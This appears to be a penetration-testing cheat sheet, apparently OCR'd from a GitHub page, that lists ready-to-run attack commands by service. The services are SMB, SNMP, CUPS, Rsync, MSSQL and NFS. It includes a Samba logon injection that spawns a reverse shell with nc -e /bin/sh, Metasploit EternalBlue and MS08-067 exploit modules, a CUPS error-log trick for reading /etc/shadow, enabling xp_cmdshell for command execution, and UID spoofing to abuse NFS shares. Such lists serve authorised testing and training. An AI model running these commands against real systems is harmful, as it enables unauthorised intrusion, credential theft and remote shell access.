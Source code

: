 - SMB (port 137/139/445)

```
$ smbclient -L <IP address>
$ smbclient -L <IP address> -U <username>
$ smbclient \\\\<IP address>\\c$
$ smbclient \\\\<IP address>\\c$ -U <username>
$ smbmap -H <IP address>
$ smbmap -H <IP address> -u <username> -p <password>
smb: \> logon "/=`nc <IP address> <port> -e /bin/sh`"
msf> use auxiliary/scanner/smb/smb_version
msf> use exploit/windows/smb/ms17_010_eternalblue
msf> use exploit/windows/smb/ms08_067_netapi
msf> use exploit/multi/samba/usermap_script
$ enum4linux -a <IP address>
$ crackmapexec smb <IP address> --shares
$ crackmapexec smb <IP address> --shares -u <username> -p '<password>'
$ crackmapexec winrm <IP address> -u <username> -p '<password>'
```

- SNMP (udp/port 161)

```
$ snmpwalk -v 2c -c <community string> <IP address>
$ snmpwalk -v 2c -c public <IP address> 1.3.6.1.2.1.1.5.0
$ snmpwalk -v 2c -c private <IP address> 1.3.6.1.2.1.1.5.0
$ onesixtyone -c dict.txt <IP address>
```

- CUPS (port 631)

```
$ cupsctl ErrorLog="/etc/shadow"
$ curl http://<IP address>:631/admin/log/error_log?
use multi/escalate/cups_root_file_read
```

- Rsync (port 873)

```
$ rsync --list-only <IP address>::
$ rsync --list-only <IP address>::<share>
$ rsync <IP address>::<share>/<filename> <filename>
```

- MSSQL (port 1433)

```
$ python3 mssqlclient.py <domain>/<username>@<IP address> -windows-auth
SQL> SELECT is_srvrolemember('sysadmin');
SQL> EXEC sp_configure 'show advanced options', 1; RECONFIGURE; sp_configure; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
SQL> EXEC xp_cmdshell "whoami";
```

- NFS (port 2049)

```
$ showmount -e <IP address>
$ sudo mount -t nfs <IP address>:<mountable share> <target location>
$ sudo useradd -u <UID> <user>
```
